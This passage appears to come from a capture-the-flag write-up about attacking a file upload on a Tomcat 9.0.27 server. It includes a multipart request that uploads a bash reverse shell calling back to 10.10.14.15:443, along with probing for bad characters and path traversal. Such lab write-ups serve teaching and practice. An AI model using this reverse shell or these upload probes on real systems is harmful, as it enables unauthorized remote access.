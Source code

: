     -----------------------------196356314313815341281577268423
    Content-Disposition: form-data; name="image"; filename="shell.sh"
    Content-Type: application/x-shellscript
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    
    -----------------------------196356314313815341281577268423--
    

Beside the content of the file, I control the email address (which is passed
as a GET parameter even in this POST request) and the filename.

On sending the request to Burp Repeater, bad characters (like `"`) in the
email address returns an HTTP 400 Bad Request. At the end of the HTML is this:

    
    
    <pre>java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986
    	org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:468)
    	org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:292)
    	org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
    	org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:861)
    	org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1579)
    	org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    	java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
    	java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
    	org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    	java.base&#47;java.lang.Thread.run(Thread.java:834)
    </pre>
    <p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" />
    <h3>Apache Tomcat/9.0.27</h3>
    </body>
    </html>
    

It the bottom matches the version `nmap` returned.

Another thing that was useful was submitting with an empty filename:

[![image-20200831220455176](https://0xdfimages.gitlab.io/img/image-20200831220455176.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200831220455176.png)

It looks like the server is taking that name and prepending
`/opt/samples/uploads` to it to create a filename, and when it’s blank, it
can’t write a file where the directory already exists, so it throws an error.

I tried seeing if I could write up a directory with `../test`, but it returned
an error message, `Invalid filename!`, which suggests some kind of filtering
is going on. Quick tests show a bad character list that includes `/`, `-`,
`|`, and a bunch of other special characters.

### Tomcat Patch Logs
